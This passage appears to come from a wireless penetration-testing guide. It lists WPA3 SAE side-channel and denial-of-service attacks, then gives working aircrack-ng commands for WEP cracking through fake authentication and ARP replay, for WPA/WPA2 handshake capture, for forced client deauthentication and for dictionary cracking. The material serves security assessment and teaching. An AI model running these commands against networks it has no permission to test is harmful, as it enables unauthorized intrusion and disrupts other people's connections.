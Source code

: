 ·        **Timing Attacks**: Exploit timing differences in SAE processing to leak password information

·        **Cache-Based Attacks**: Analyze memory access patterns to extract password data

·        **Power Analysis**: Use power consumption analysis against resource-constrained devices[[2\|2]](#fn2)

**Resource Consumption Attacks**:

·        **Denial of Service**: Exhaust access point resources through SAE processing overload

·        **Memory Exhaustion**: Force excessive memory allocation during handshake processing[[2\|2]](#fn2)

**Phase 4: Exploitation Techniques and Attack Methods**

**WEP Exploitation**

WEP cracking remains relevant for legacy system assessment and can be accomplished using multiple techniques:[[11\|11]](#fn11)[[10\|10]](#fn10)

**IV Collection and Statistical Attacks**:

# Generate traffic for IV collection  
aireplay-ng -1 0 -a [AP_MAC] -h [CLIENT_MAC] wlan0mon  # Fake authentication  
aireplay-ng -3 -b [AP_MAC] -h [CLIENT_MAC] wlan0mon    # ARP replay attack  
  
# Crack WEP key using collected IVs  
aircrack-ng -b [AP_MAC] capture_file.cap  
  

**Advanced WEP Attack Techniques**:

·        **Chopchop Attack**: Decrypt WEP packets without knowing the key

·        **Fragmentation Attack**: Generate new packets from existing encrypted packets

·        **Hirte Attack**: Attack clients instead of access points using fake AP[[11\|11]](#fn11)

**WPA/WPA2 Exploitation**

**Traditional Handshake Capture and Cracking**:

# Capture handshake  
airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w handshake_capture wlan0mon  
  
# Force client reconnection (new terminal)  
aireplay-ng -0 10 -a [AP_MAC] -c [CLIENT_MAC] wlan0mon  
  
# Crack captured handshake  
aircrack-ng -w wordlist.txt handshake_capture.cap  
  